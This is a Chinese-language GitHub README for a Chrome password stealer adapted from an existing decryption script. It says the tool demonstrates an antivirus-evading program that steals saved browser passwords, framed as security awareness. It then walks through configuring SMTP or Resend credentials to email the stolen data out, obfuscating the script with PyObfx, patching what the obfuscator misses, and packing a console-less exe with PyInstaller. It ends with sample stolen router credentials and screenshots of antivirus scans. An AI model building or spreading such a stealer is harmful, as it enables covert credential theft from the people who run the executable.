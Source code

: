[中文](./README.md) | [English](./README_EN.md)

# InfoSec GoogleChrome

## 1 说明

本仓库的源码是基于[ohyicong](https://github.com/ohyicong/decrypt-chrome-passwords)进行的修改，主要用于演示打包一个杀毒软件无法察觉的程序，窃取用户在google上保存的密码。提示大家对信息安全的注意，和用google浏览器保存密码非常不安全的认识。

* 更新7/20 增加了resend邮件方式

## 2 使用

### 2.1 环境
* windows
* python3
* 克隆项目到本地
    ```bash
    git clone https://github.com/lissettecarlr/InfoSec-GoogleChrome.git
    cd InfoSec-GoogleChrome
    ```
* 安装依赖
    ```bash
    pip install -r requirements.txt
    ```
* 混淆器
    ```bash
    git clone https://github.com/PyObfx/PyObfx.git
    cd PyObfx
    pip install -r requirements.txt
    cd ..
    ```

### 2.2 配置

* 新建secret.yaml文件，填写邮箱信息（为了将获得的数据通过邮件发送）：
    ```yaml
        email:
            host : '邮箱服务器地址，例如：smtp.163.com'
            user : 'xxx'
            pass : '如果是163邮箱，则在网页版的设置中开启IMAP/SMTP服务后获得' 
            sender : '发送的邮箱'  
            receivers : '接收的邮箱（可以和发送邮箱相同）' 
        resend:
            key : 'resend.dev的key'
            from: 'resend的from'
            to: "注册resend的邮箱"
    ```    
    这里增加了[resend](https://resend.com/overview)邮件方式方式，需要你先去注册个账号，然后生成key。注意的是默认情况下，它的from和to是固定的，注册后在示例那里能看到。如果key不填写，则不使用该方式发生邮件
* 修改config文件，配置是否发送邮件，是否保存到本地的json文件
    ```yaml
        include : secret.yaml

        output:
            json: 'ON'
            email: 'ON'
            sender_email : 'ON'
    ``

### 2.3 打包    
* 对代码进行混淆
    ```bash
    python ./PyObfx/PyObfx.py decrypt_chrome_passwords.py
    ```

* 修改（混淆器漏掉的）
    ```python
    # 混淆后漏掉的示例，由于混淆不同所有下列知识对比参考。yaml没有混淆
    oYRvAuKk = mQaPXiYD.load(DA, Loader=yaml.Loader)
    # 根据你yaml的别名修改，如下
    import yaml as mQaPXiYD
    oYRvAuKk = mQaPXiYD.load(DA, Loader=mQaPXiYD.Loader)
    ```

* 打包成exe，在dist目录下生成exe文件
    ```bash
    pyinstaller -F --add-data "config.yaml;." --add-data "secret.yaml;." .\decrypt_chrome_passwords_obfx.py --noconsole
    ```

### 2.4 结果

如果打开了config中的json和email，那么在执行exe时会在当前目录生成output.json。
```json
[
    {
        "url": "http://192.168.2.1/cgi-bin/luci/",
        "username": "root",
        "p": "testtest"
    }
]
```

然后邮箱收到邮件：

![邮件](./file/1.png)

上列条目数是根据你自己在google浏览器中保存的密码条目决定的,我这里是临时添加了一条，所有只有一条。


## 3 杀毒

* 火绒安全
    ![火绒](./file/2.gif)

* 顺便找的个在线查毒
    ![查毒](./file/3.png)

